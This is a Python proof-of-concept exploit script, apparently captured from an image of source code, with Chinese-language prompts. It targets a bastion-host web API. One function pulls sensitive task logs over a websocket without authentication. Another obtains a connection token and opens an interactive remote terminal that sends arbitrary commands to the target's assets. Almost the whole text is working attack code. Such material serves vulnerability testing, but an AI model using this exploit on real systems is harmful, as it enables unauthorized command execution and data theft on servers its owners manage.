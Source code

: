 ```python
        resws = json.loads(recv_text)
        id = resws['id']
        print("\033[36m[o] 成功获取 ID: {}\033[0m".format(id))

        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket, inittext)
        for i in range(7):
            recv_text = await websocket.recv()
            print(re.findall(r'"data":"(.*?)"', recv_text))

        while True:
            cmd = str(input("\033[35mcmd  >>> \033[0m"))
            cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd + "\r\n"})
            await send_msg(websocket, cmdtext)
            for i in range(1):
                recv_text = await websocket.recv()
                print(re.findall(r'"data":"(.*?)"', recv_text))


def POC_1(target_url):
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    response = requests.get(url=vuln_url, timeout=5)
    print(response.status_code)
    ws_open = str(input("\033[32m[o] 是否想要提取日志（Y/N） >>> \033[0m"))
    try:
        if ws_open == "Y" or ws_open == "y":
                ws = target_url.strip("http://")
                try:
                    ws = ws_long('ws://{}/ws/ops/tasks/log/'.format(ws))
                    ws.connect()
                    ws.run_forever()
                    ws.close()
                except KeyboardInterrupt:
                    ws.close()
        else:
            print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息\033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 目标漏洞已修复，无法获取敏感日志信息,{}\033[0m".format(e))
        sys.exit(0)


def POC_2(target_url, user, asset, system_user):
    if target_url == "" or asset == "" or system_user == "":
        print("\033[31m[x] 请获取 assset 等参数配置\033[0m")
        sys.exit(0)
    data = {"user": user, "asset": asset, "system_user": system_user}
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    # vuln_url = target_url + "/api/v1/authentication/connection-token/?user-only=1"

    try:
        response = requests.post(vuln_url, json=data, timeout=5).json()
        print("\033[32m[o] 正在请求：{}\033[0m".format(vuln_url))
        token = response['token']
        print("\033[36m[o] 成功获取Token：{}\033[0m".format(token))
        ws_url = target_url.strip("http://")
        ws_url = "ws://" + ws_url + "/koko/ws/token/?target_id={}".format(token)
        asyncio.get_event_loop().run_until_complete(main_logic(ws_url))

    except Exception as e:
        print("\033[31m[x] 请检查 assset 等参数配置,{}\033[0m".format(e))
        sys.exit(0)
```